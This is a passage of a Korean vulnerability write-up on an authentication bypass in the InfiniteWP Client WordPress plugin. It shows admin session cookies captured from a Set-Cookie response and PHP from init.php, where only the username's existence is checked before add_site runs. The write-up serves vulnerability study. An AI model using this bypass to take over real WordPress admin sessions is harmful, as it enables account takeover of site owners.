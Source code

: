 ![image.png](assets/posts/one-day/2024-11-16/img-003.png)

<br>
`<IWPHEADER>IWP_JSON_PREFIX` 이후의 JSON 데이터에서는 오류 정보를 담고 있지만 응답에 포함된 `Set-Cookie` 헤더에는 admin의 인증이 담긴 쿠키가 들어 있다. 

인증 관련 쿠키가 탈취되었기 때문에 이 쿠키를 이용하여 로그인된 사용자로 서버에 접근이 가능해진다.

```
Set-Cookie: wordpress_bbfa5b726c6b7a9cf3cda9370be3ee91=admin%7C1731294066%7CBdSyolk5byySaChUe5PaaDbqd2eiAhtOXB77uWUL37G%7Ca737c90621d6875a9cdfe9347f1d66da54dce407a13b3ee0e35b791dc4802ccc; path=/wordpress/wp-content/plugins; HttpOnly,
wordpress_logged_in_bbfa5b726c6b7a9cf3cda9370be3ee91=admin%7C1731294066%7CBdSyolk5byySaChUe5PaaDbqd2eiAhtOXB77uWUL37G%7C8e5e6e7ab39289af449fc5602d19a43c42417e94fd359b3fb1f37a1471354438; path=/wordpress/; HttpOnly,
wordpress_sec_bbfa5b726c6b7a9cf3cda9370be3ee91=admin%7C1731294066%7CXPaJDm3SPVy8bit94rrdfA7ZX0dj2U27ZHlugsII8Qj%7C57531b804e6e218addfd834cf21c0d4aedfe5e47990ccbb44d868177b60b220e; path=/wordpress/wp-admin; secure; HttpOnly
```

<br>
## **4. Analysis**

- `check_if_user_exists` 함수로 `username`이 존재하는지 확인하고 있지만 해당 사용자가 실제로 권한을 가지고 있는지 확인하지 않는다.
- 결과적으로, 관리자 권한 여부나 비밀번호 검증 없이 `add_site` 액션이 수행된다.
    
    ```php
    // init.php
    // function iwp_mmb_parse_request
    if (!$iwp_mmb_core->check_if_user_exists($params['username']))
    		iwp_mmb_response(array('error' => 'Username <b>' . $params['username'] . '</b> does not have administrative access. Enter the correct username in the site options.', 'error_code' => 'username_does_not_have_administrative_access'), false);
    			